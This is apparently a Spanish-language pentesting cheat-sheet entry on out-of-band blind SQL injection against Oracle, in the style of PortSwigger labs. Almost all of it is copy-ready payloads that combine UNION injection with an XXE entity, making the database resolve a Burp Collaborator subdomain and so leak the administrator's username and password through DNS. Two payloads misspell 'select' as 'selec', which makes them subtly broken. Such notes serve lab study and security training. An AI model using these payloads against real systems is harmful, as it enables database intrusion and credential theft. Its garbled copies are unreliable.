 # Inyección SQL Blind fuera de banda (OOB)

Tags: #SQLI #Oracle  #BurpSuite 

* [SQLi Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

```mysql 
❯ ' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual -- -
	
	# ; = %3b 
	# % = %25

Notas:
	1. Urlencodear los caracteres de arriba para que no entre en conflicto 
	2. Usar BurpSuite Pro para obtener la url que da el 'COLLABORATOR-SUBDOMAIN'
	3. El ataque se efectua por utilizar la vulnerabilidad de XXE para hacer consultas DNS
```

## Extraer datos 

```mysql 
# Se puede colocar una query, un punto y despues la url del 'BURP-COLLABORATOR-SUBDOMAIN', las respuesta se ven en la misma pestaña del 'Colaborator' al momento de hacer 'Pull now'
❯ ' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(selec username from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual -- -

	# ; = %3b 
	# % = %25
```

### Conocer la password 

```mysql 
❯ ' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(selec password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual -- -

	# ; = %3b 
	# % = %25
```
